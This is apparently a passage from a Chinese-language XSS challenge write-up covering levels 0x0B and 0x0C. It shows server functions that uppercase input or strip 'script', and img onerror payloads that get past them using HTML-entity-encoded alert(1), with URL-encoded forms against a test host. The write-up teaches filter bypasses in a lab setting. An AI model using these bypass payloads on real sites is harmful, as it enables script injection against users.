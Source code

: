 ## 0x0B

- server 源码

输入内容大写，HTML对大小写不敏感，但是JavaScript对大小写敏感，则ALERT()无法执行，需要想办法绕过对JavaScript的的大写转换：
1. html编码绕过
2. 外部js文件绕过

```php
function render (input) {
  input = input.toUpperCase()
  return `<h1>${input}</h1>`
}
```

- 插入代码

```html
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

- 网页代码

```html
<h1><IMG SRC=X ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
</h1>
```

- URL

```url
http://xss.test/?input=%3Cimg%20src%3Dx%20onerror%3D%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B(1)%3E%0A
```

## 0x0C

- server 源码

上题基础增加 script 过滤

```php
function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

- 插入代码

```html
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

- 网页代码

```html
<h1><IMG SRC=X ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)> 
</h1>
```
